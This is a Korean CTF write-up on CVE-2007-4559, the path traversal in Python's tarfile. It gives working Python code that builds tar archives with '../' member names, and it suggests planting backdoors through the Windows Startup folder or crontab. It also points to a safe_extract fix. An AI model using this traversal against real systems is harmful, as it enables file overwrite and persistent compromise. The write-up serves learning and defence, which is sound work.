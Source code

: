 # python_tar

`CVE-2007-4559` 취약점을 활용하는 문제이다.

```python
import tarfile
def change_name(tarinfo):
    tarinfo.name = "../b/" + tarinfo.name
    return tarinfo
with tarfile.open("test.tar", "w:xz") as tar:
    tar.add("test.txt", filter=change_name)
```

위와 같이 tar 내부에 존재하는 이름을 수정한 tar 파일을 만들고

```python
import tarfile
with tarfile.open("test.tar", "r") as tar:
    tar.extractall()
```

해당 파일을 extract하면 그 경로로 압축 해제된다.

만약 최고 권한으로 실행되어 있다면 윈도우는 `C:\Users\사용자 계정\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` 경로에 압축을 풀어서 백도어를 심을 수 있고, 리눅스에서는 `crontab` 파일을 덮어서 백도어로 활용할 수 있겠다.

```
hyuunnn@hyuunnn:/mnt/c/Users/hyuunnnn/Desktop/cve-2007-4559/a$ tar -xvf test.tar
tar: Removing leading `../' from member names
tar: ../b/test.txt: Member name contains '..'
tar: Exiting with failure status due to previous errors
```

tar 명령어의 문제가 아닌 `tarfile` 라이브러리의 문제임을 확인할 수 있다.

https://github.com/microsoft/GRTr/pull/7/files - `safe_extract` 함수를 보면 `tar.getmembers()`를 사용하여 루프 돌면서 경로가 맞는지 확인한다.

## 문제 풀이

1. 문제 파일로 주어진 `run.py` 코드를 분석
2. `flag.txt` 파일을 만들어서 위 코드에서 요구하는 문자로 저장
3. `make_tar.py`를 실행하여 tar 파일 생성

```python
## make_tar.py
import tarfile

def change_name(tarinfo):
    tarinfo.name = "../../../../../../tmp/" + tarinfo.name
    return tarinfo

with tarfile.open("test.tar", "w:xz") as tar:
    tar.add("flag.txt", filter=change_name)
```

4. 생성된 tar 파일을 웹 서버에 업로드하면 `FLAG`가 출력된다.

## 관련 자료

https://www.bleepingcomputer.com/news/security/unpatched-15-year-old-python-bug-allows-code-execution-in-350k-projects/

https://discuss.python.org/t/policies-for-tarfile-extractall-a-k-a-fixing-cve-2007-4559/23149

https://github.com/python/cpython/issues/45385

https://www.trellix.com/en-us/about/newsroom/stories/research/the-bug-report-september-2022-edition.html#CVE-2007-4559

https://www.trellix.com/en-us/about/newsroom/stories/research/limiting-the-software-supply-chain-attack-surface.html

https://www.trellix.com/en-us/about/newsroom/stories/research/tarfile-exploiting-the-world.html

https://www.cwn.kr/news/articleView.html?idxno=12545

https://github.com/advanced-threat-research/Creosote

https://docs.python.org/3/library/tarfile.html#tarfile.TarFile.extractall

https://www.theregister.com/2022/09/22/python_vulnerability_tarfile/

https://github.com/microsoft/GRTr/pull/7/files https://github.com/tensorflow/privacy/pull/344/files
